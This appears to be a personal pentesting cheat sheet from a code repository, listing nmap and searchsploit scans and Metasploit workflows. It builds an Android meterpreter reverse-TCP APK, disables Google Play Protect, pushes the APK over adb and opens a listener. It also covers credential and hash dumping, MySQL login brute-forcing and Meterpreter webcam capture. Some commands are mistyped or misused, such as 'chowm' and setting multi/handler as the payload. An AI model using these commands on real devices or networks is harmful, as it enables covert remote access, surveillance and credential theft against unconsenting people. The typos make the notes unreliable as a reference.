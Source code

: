# OffSec  
  
## Network Analysis  

nmap -sn 192.168.1.*  
nmap {ips} -A -oX hosts.xml  
searchsploit --nmap hosts.xml --json 2>&1 | tee result.json  
  
nmap -T4 -A -v 192.168.1.1 -sV -oX hosts.xml  
searchsploit --nmap hosts.xml --json | tee router_hosts.json  
  
- Wireshark deauth packages:  
wlan.fc.type_subtype == 12  

## MSF 101  

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.110.126 LPORT=4444 -o android_client.apk  
  
disable Google Protect  
adb connect 192.168.110.230  
adb push android_client.apk /storage/self/primary  
  
msfconsole  
set PAYLOAD multi/handler  
set LHOST 192.168.110.126  
set LPORT 4444  
exploit  
  
## MSF  

ddbb:  
systemctl start postgresql  
msfdb init  
db_status  
  
MSF Workspaces:  
workspace  
workspace lab3  
add -> workspace -a lab1  
del -> workspace -d lab1  
  
Other:  
db_nmap -A 192.168.1.1  (shitty snap integration)  
(from msf) db_nmap --unprivileged -T4 -A -Ao nmap_scans/scan_workspace.xml  
nmap -v -T4 -A -oA nmap_scans/%D.xml  
sudo chowm -R username nmap_scans/*.xml  
db_import ~/nmap_scans/*.xml  
  
List by:  
hosts (display scan)  
hosts -c address,os_flavor -S Linux (-c FILTER, -S search)  
services -c name,info -S http  
services -c name,info -p 445  
services -c port,proto,state -p 70-81  
  
Backup:  
db_export -f xml -a workspace_name  
db_import workspace_name  
services -s http -c port 172.16.194.134 -o /root/msfu/http.csv  
  
Credentials:  
creds  
(add) creds -a 172.16.194.134 -p 445 -u Administrator -P 7bf4f254b222bb24aad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::  
  
Loot i.e.:  
use post/linux/gather/hashdump  
run  
loot  (--add to save to ddbb, default just lists)  
  
Exploits:  
use  
show targets  
show payloads  
show options  
show advanced  
show evasion  
  
Meterpreter:  
webcam_list  
webcam_snap  
  
## Exploit i.e  

nmap -v -T4 -A -oA nmap_scans/%D.xml  
sudo chown -R username nmap_scans/*.xml  
db_import ~/nmap_scans/*.xml  
use mysql_login  
hosts  
hosts -S Linux -R  
